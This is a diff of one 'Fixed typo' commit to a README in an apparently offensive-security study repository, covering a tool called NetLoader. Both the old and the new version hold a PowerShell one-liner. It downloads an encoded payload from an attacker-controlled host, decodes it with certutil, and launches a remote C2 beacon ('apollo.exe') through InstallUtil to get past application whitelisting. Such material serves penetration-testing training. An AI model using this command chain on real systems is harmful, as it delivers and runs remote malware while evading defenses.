

Before and after one commit to VictorNS69/osep-material, a Markdown page: Tools/NetLoader/README.md, the part around the change. GitHub-like rendering.

Commit message:
Fixed typo

````diff
--- a/Tools/NetLoader/README.md
+++ b/Tools/NetLoader/README.md
@@ -95,5 +95,5 @@ Certutil -encode NL-mod.exe nl.enc
 
 Finally executed with
 ```powershell
-powershell iwr -uri http://192.168.235.130:8000/Tools/NetLoader/nl.enc -outfile C:\\windows\\Tasks\\enc.txt; powershell rm C:\\windows\\Tasks\\vns.exe; powershell certutil -decode C:\\windows\\Tasks\\nl.enc C:\\windows\\Tasks\\vns.exe; C:\\windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile=/LogToConsole=false /path=http://192.168.235.130:8000/beacons/apollo.exe /U C:\\windows\\Tasks\\vns.exe
+powershell iwr -uri http://192.168.235.130:8000/Tools/NetLoader/nl.enc -outfile C:\\windows\\Tasks\\nl.enc; powershell rm C:\\windows\\Tasks\\vns.exe; powershell certutil -decode C:\\windows\\Tasks\\nl.enc C:\\windows\\Tasks\\vns.exe; C:\\windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile=/LogToConsole=false /path=http://192.168.235.130:8000/beacons/apollo.exe /U C:\\windows\\Tasks\\vns.exe
 ```
````
